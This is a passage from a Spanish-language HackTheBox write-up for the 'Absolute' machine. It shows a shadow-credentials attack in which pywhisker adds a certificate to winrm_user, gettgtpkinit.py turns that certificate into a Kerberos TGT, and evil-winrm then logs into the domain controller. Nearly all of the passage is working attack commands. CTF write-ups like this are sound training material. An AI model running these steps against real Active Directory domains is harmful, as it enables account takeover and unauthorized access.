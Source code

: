 ![](/assets/images/HTB/Absolute-HackTheBox/22.webp)

Una vez que hemos lanzado estos comandos en la powershell debemos ir **rápidamente** a nuestra máquina atacante para ejecutar el siguiente comando.

```bash
❯ sudo python3 pywhisker.py -d absolute.htb -u "m.lovegod" -k --no-pass -t "winrm_user" --action "add"
```

![](/assets/images/HTB/Absolute-HackTheBox/23.webp)

Al ejecutar este comando se nos genera un certificado con extensión .pfx y su contraseña.

De esta forma usamos el certificado *.pfx* para generar un TGT del usuario winrm_user a través de la utilidad gettgtpkinit.py.

Ejecuto el siguiente comando introduciendo todos los parámetros necesarios, tales como el certificado .pfx, la contraseña, dominio...

```bash
❯ python3 gettgtpkinit.py absolute.htb/winrm_user -cert-pfx /home/elc4br4/Absolute/pywhisker/JVtdjRsp.pfx -pfx-pass lHFYqVyq8kijBRwgof8D winrmCcache
```

![](/assets/images/HTB/Absolute-HackTheBox/24.webp)

Y ya tenemos el TGT del usuario winrm_user, por lo que lo exportamos a la variable KRB5CCNAME

`❯ export KRB5CCNAME=/home/elc4br4/PKINITtools/winrmCcache`

Y ahora ya podemos conectarnos a la máquina a través de Winrm con este usuario.

`❯ ruby evil-winrm.rb -i DC.ABSOLUTE.HTB -r ABSOLUTE.HTB`

![](/assets/images/HTB/Absolute-HackTheBox/25.webp)
